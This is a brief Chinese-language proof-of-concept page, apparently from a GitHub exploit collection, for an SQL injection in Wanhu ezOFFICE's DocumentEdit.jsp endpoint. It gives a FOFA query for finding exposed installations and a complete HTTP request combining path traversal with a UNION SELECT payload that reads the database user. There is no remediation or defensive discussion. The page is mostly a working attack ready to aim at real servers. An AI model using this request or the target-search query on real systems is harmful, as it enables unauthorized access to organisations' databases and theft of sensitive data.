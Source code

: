 ## 万户 ezOFFICE DocumentEdit.jsp SQL注入

DocumentEdit.jsp接口处存在sql注入漏洞，攻击者可获取数据库中敏感信息

## fofa
```
app="ezOFFICE协同管理平台"
```

## poc
```
GET /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iSignatureHTML.jsp/DocumentEdit.jsp?DocumentID=1'%20union%20select%20null,null,(select%20user%20from%20dual),null,null,null,null,null,null,null%20from%20dual-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```
![image](https://github.com/wy876/POC/assets/139549762/899ccb8d-22a3-4c5b-a50b-9d8a64ac73aa)
